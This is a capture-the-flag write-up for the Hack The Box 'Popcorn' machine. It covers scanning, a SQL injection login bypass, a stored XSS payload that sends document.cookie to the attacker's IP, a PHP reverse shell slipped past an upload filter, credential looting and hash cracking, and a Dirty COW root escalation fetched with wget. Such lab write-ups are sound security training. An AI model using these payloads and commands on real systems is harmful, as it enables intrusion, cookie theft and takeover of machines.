 +++
date = '2025-02-23T23:16:24-05:00'
draft = false
title = 'HtB Popcorn'
tags = ['writeup','hack the box','medium','linux']
hideToc = false
+++
![HtB-Popcorn](/images/Popcorn.png)

Popcorn, while not overly complicated, contains quite a bit of content and it can be difficult for some users to locate the proper attack vector at first. This machine mainly focuses on different methods of web exploitation.

<!--more-->
---

## Scanning

### nmap

```sh
┌──(pl4stic㉿kali)-[~/htb/popcorn]
└─$ nmap -T4 -p- -A -v 10.129.139.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-18 23:46 EST
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://popcorn.htb/
|_http-server-header: Apache/2.2.12 (Ubuntu)
```

Update `/etc/hosts` file:
`echo "10.129.139.55    popcorn.htb`
### HTTP - 80/tcp

![popcorn1](/images/popcorn1.png)

```sh
┌──(pl4stic㉿kali)-[~/htb/popcorn]
└─$ gobuster dir -u http://popcorn.htb/ -w /usr/share/wordlists/dirb/big.txt      
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://popcorn.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 288]
/cgi-bin/             (Status: 403) [Size: 287]
/index                (Status: 200) [Size: 177]
/rename               (Status: 301) [Size: 311] [--> http://popcorn.htb/rename/]
/test                 (Status: 200) [Size: 47357]
/torrent              (Status: 301) [Size: 312] [--> http://popcorn.htb/torrent/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

#### /rename

![popcorn2](/images/popcorn2.png)

#### /test

![popcorn3](/images/popcorn3.png)

#### /torrent

![popcorn4](/images/popcorn4.png)

## Initial Access

### SQL Injection on Login Page

Starting with the most developed endpoint (assumption) on the web server, I took a look at the `/torrent/` endpoint. Immediately noticed a login page, register page, and basic authentication functionality.  I created an account, poked around for a while, and then took a look at Burp Suite to see what the traffic looked like.

The POST request for logging in appeared to be quite simple, so figured I'd try some basic SQL injection payloads to see if it was vulnerable. Lucky for me, first try was a success.

`username=admin' or 1=1;-- -&password=bar`

![popcorn5](/images/popcorn5.png)

![popcorn6](/images/popcorn6.png)

### Stored XSS on News

On the admin portal, there is a section to add/edit news items (shows up on the front page). I tried a simple payload, `<script>alert(0);</script>` and was greeted with this on the homepage.

![popcorn7](/images/popcorn7.png)

Next, I updated the XSS payload to see if I could grab any other user's session cookie, but quickly realized it was probably a rabbit hole as there were only 2 active users:  my test account and the admin user.

`<img src=x onerror=this.src='http://10.10.14.141/?c='+document.cookie>`

### File Upload for Torrent Screenshot

Tried to upload a php reverse shell as the screenshot for the torrent file on the application, but was met with some sort of content filter.

![popcorn8](/images/popcorn8.png)

Let's try simply changing the `Content-Type` value to `image/png`.

![popcorn9](/images/popcorn9.png)

And, we're in.

```sh
┌──(pl4stic㉿kali)-[~/htb/popcorn]
└─$ nc -nvlp 4444 
listening on [any] 4444 ...
connect to [10.10.14.141] from (UNKNOWN) [10.129.139.55] 51054
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 07:34:50 up 50 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@popcorn:/$
```

## Shell as www-data

### Enumeration

Looks like one one other user (except `root`) with a working account on the machine.

```sh
www-data@popcorn:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
george:x:1000:1000:George Papagiannopoulos,,,:/home/george:/bin/bash
```

Luckily enough, we can also go ahead and grab the user flag from `/home/george/user.txt`

Found some credentials in `/var/www/torrent/config.php`
```php
  //Edit This For TORRENT HOSTER Database
  //database configuration
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password
```

And also some interesting tidbits in `/var/www/torrent/database/th_database.sql`
```sql
INSERT INTO `users` VALUES (3, 'Admin', '1844156d4166d94387f1a4ad031ca5fa', 'admin', 'admin@yourdomain.com', '2007-01-06 21:12:46', '2007-01-06 21:12:46');
```

#### Hash Crack

We can go ahead and crack that password for `Admin` we found in the `th_database.sql` file.

```sh
┌──(pl4stic㉿kali)-[~/htb/popcorn]
└─$ hashcat '1844156d4166d94387f1a4ad031ca5fa' /usr/share/wordlists/rockyou.txt -m 0
hashcat (v6.2.6) starting
[...snip...]
1844156d4166d94387f1a4ad031ca5fa:admin12                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 1844156d4166d94387f1a4ad031ca5fa
```

`Admin:admin12`

## Privilege Escalation

### Dirty C0W

After running `Linux Privilege Escalation Checker`, one of the returned results was for `Dirty C0W`. I pulled the `.c` script right from `searchsploit`, transferred to the victim machine, compiled, ran, and was able to get root privileges.

```sh
┌──(pl4stic㉿kali)-[~/htb/popcorn]
└─$ searchsploit dirty cow
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (1)                | linux/dos/43199.c
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (2)                | linux/dos/44305.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privi | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escal | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access  | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Es | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access M | linux/local/40611.c
-------------------------------------------------------------------------------------- ---------------------------------
```

```sh
www-data@popcorn:/var/www$ wget http://10.10.14.142/40839.c

--2025-02-24 06:07:06--  http://10.10.14.142/40839.c
Connecting to 10.10.14.142:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `40839.c'

100%[======================================>] 4,814       --.-K/s   in 0s      

2025-02-24 06:07:06 (273 MB/s) - `40839.c' saved [4814/4814]
```

```sh
www-data@popcorn:/var/www$ gcc -pthread 40839.c -o exploit -lcrypt
www-data@popcorn:/var/www$ chmod +x exploit
www-data@popcorn:/var/www$ ./exploit

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: pl4stic

Complete line:
firefart:fiX5006wR4PnE:0:0:pwned:/root:/bin/bash

mmap: b77a7000
```

Now just `su firefart`, use your new password, and enjoy root access.